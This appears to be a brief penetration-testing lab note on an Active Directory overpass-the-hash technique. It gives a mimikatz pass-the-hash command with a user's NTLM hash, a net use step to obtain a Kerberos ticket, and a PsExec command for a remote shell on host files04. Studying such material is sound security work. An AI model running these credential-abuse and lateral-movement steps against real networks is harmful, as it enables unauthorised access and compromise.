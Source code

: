 #activedirectory #pth 

To get TGT from AD

🔴 To Run as another user - right click  +Shift

1. Get the NTLM hash of user Jen

```mimikatz
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

2. Do an interactive login after
```powershell
net use \\files04
```
3. Now you can use this process to authenticate with any service that only uses Kerberos

```powershell
.\PsExec.exe \\files04 cmd
```

